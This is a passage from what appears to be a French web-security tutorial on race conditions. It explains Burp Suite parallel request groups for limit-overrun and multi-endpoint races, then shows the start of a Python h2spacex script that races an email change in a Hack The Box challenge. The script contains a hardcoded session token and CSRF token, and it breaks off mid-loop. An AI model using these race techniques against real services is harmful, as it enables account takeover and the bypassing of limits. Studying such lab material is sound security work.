 ```python
engine.openGate(currentAttempt)
```
- Il est également disponible dans **Repeater** via la nouvelle option '**Envoyer le groupe en parallèle**' dans Burp Suite.
- Pour **limit-overrun**, vous pourriez simplement ajouter la **même requête 50 fois** dans le groupe.
- Pour **connection warming**, vous pourriez **ajouter** au **début** du **groupe** quelques **requêtes** vers une partie non statique du serveur web.
- Pour **delaying** le processus **entre** le traitement **d'une requête et une autre** en 2 étapes substantielles, vous pourriez **ajouter des requêtes supplémentaires entre** les deux requêtes.
- Pour un RC **multi-endpoint**, vous pourriez commencer à envoyer la **requête** qui **va à l'état caché** et ensuite **50 requêtes** juste après qui **exploite l'état caché**.

<figure><img src="../images/image (58).png" alt=""><figcaption></figcaption></figure>

- **Script python automatisé** : L'objectif de ce script est de changer l'email d'un utilisateur tout en le vérifiant continuellement jusqu'à ce que le token de vérification du nouvel email arrive à l'ancien email (c'est parce que dans le code, il voyait un RC où il était possible de modifier un email mais d'avoir la vérification envoyée à l'ancien car la variable indiquant l'email était déjà peuplée avec le premier).\
Lorsque le mot "objetivo" est trouvé dans les emails reçus, nous savons que nous avons reçu le token de vérification de l'email changé et nous mettons fin à l'attaque.
```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:

urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

```